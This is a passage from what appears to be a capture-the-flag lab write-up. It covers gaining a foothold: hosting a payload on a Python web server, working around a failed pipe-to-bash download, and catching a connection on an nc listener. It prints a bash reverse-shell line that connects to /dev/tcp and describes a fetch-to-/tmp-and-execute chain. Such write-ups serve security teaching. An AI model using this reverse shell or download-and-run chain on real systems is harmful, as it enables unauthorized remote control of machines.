 

    oxdf@hacky$ python -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.11.170 - - [21/Nov/2022 21:11:51] code 404, message File not found
    10.10.11.170 - - [21/Nov/2022 21:11:51] "GET /shell HTTP/1.1" 404 -



#### Pipe Fails

I'll add a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw) to `shell`:



    #!/bin/bash

    bash >& /dev/tcp/10.10.14.6/443 0>&1



Trying to pipe this into `bash` results in this request:



    10.10.11.170 - - [21/Nov/2022 21:15:35] code 404, message File not found
    10.10.11.170 - - [21/Nov/2022 21:15:35] "GET /shell|bash HTTP/1.1" 404 -



It is interpreting the `|` as part of the request, not as a pipe.

#### Save and Execute

I'll just write the shell to `/tmp`:

![](/img/image-20221121161652572.png)

This seems to work. Next I'll run it with `bash`:

![](/img/image-20221121161909384.png)

On doing that, there's a connection at my `nc` listener:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.170 45524



This is why I always run with `-v`, so it alerts me to the connection,
even though no prompt was sent over the session. It still works:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.170 45524
    id
    uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)

